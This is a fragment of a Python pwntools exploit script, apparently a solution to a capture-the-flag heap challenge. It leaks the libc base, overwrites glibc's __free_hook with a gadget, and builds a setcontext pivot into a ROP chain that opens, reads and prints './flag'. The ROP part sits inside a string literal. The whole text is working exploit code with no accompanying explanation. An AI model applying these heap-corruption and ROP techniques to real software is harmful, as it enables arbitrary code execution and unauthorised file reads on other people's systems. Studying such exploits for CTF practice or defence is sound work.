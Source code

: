 ```python 
    LIBC = main_aeran - 0x1ebbe0
    print("libc: " + hex(LIBC))
    libc = ELF("./libc.so.6")
    env = libc.sym['environ'] + LIBC 

    gadget = LIBC + 0x0000000000154930
    setcontext = LIBC + libc.sym['setcontext']
    fhook = LIBC + libc.sym['__free_hook']

    my_edit(heap2, 0x100000004)
    sl(flat('a' * 0x20, 0, 0x21, fhook, 0x100))
    my_edit(fhook, 0x100000004)
    sl(flat(gadget))

    '''
    my_new(0x500)
    heap4 = heap3 
    my_edit(heap4, 0x100000004)

    ret = LIBC + 0x00000000000c054a
    poprax = 0x4a550 + LIBC
    poprdi = 0x26b72 + LIBC
    poprsi = 0x27529 + LIBC
    poprdx = 0x11c371 + LIBC
    syscall = 0x66229 + LIBC

    flag = heap4 + 0xb0

    payload = flat(
        0, heap4, 0, 0, # 0
        setcontext+0x3d, 0, # 0x20 
        0, 0, # 30
        0, 0, # 40 
        0, 0, # 50 
        0, 0, # 60 
        0, 0, # 70
        0, 0, # 80 
        0, 0, # 90 
        heap4+0x100, ret, # a0
        # stack 0xb0
        './flag\x00'
        ).ljust(0x100, b'b') 
    payload += flat(
        # open("./flag")
        poprax, 2, 
        poprdi, flag, 
        poprsi, 0, 
        poprdx, 0, 0, 
        syscall, 
        # read(3, buf, 0x100)
        poprax, 0, 
        poprdi, 3, 
        poprsi, flag, 
        poprdx, 0x100, 0, 
        syscall, 
        # write(1, buf, 0x100)
        poprax, 1, 
        poprdi, 1, 
        poprsi, flag, 
        poprdx, 0x100, 0, 
        syscall
            )

```